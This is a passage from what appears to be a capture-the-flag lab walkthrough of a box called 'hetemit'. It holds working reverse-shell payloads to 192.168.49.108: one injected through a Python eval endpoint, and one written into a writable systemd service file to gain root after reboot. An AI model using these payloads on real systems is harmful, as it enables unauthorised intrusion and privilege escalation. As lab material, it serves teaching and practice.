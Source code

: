 as seen in the responds above, we have an evaluation of the arithmetics input above, let's intercept request with burp.

![image](https://user-images.githubusercontent.com/87468669/210036999-3e277513-0bd0-4259-840d-39eefae5b384.png)

Great we got the same result with burp, let's get a reverse shell.

![image](https://user-images.githubusercontent.com/87468669/210037224-d838e829-8567-4dfb-a19d-5f693ea39f94.png)

ncat listener ready. reverse shell payload 

```
__import__("os").system("bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.108/80+0>%261'")
```

![image](https://user-images.githubusercontent.com/87468669/210037328-e54d6f42-3015-4fb1-b995-bdb144f36d74.png)

Fire the payload and boom we got a reverse shell as user cmeeks. Let's stablize the shell and esc privs.

![image](https://user-images.githubusercontent.com/87468669/210037670-c0e9f2db-1ee7-4d20-8ef7-9b1244a4095b.png)

by checking if we have any sudo priv, we got sudo access to /sbin/halt, /sbin/reboot, /sbin/poweroff. Great let's check for misconfigured service file.

```
[cmeeks@hetemit restjson_hetemit]$ find /etc -type f -writable 2>/dev/null
/etc/systemd/system/pythonapp.service
[cmeeks@hetemit restjson_hetemit]$ ls -al /etc/systemd/system/pythonapp.service
-rw-rw-r-- 1 root cmeeks 302 Nov 13  2020 /etc/systemd/system/pythonapp.service
[cmeeks@hetemit restjson_hetemit]$ 
```

the service file allows a service to run as the system boots. Since we have a write permission against the file, we can obviously inject a malicious command and wait until the system boots up and obtain the reverse shell as root. 
Now, we should edit the pythonapp.service and inject a malicious code.

`bash -c 'bash -i >& /dev/tcp/192.168.49.108/18000 0>&1'`

![image](https://user-images.githubusercontent.com/87468669/210038251-6d8f0c2d-2ee3-4494-b9ad-1c368475d189.png)

Now let's run the sudo -l command and reboot the service.

![image](https://user-images.githubusercontent.com/87468669/210038642-1ef693b8-9935-42b8-b749-d1c4568951bf.png)

After rebooting the service, we should check our listener.

![image](https://user-images.githubusercontent.com/87468669/210038821-830b2299-962f-4729-93a9-7fdc3c1ba283.png)

Boom we got root. 

![image](https://user-images.githubusercontent.com/87468669/210038928-8720fe98-37d9-4b38-961a-90583737d830.png)

And we are done🤠
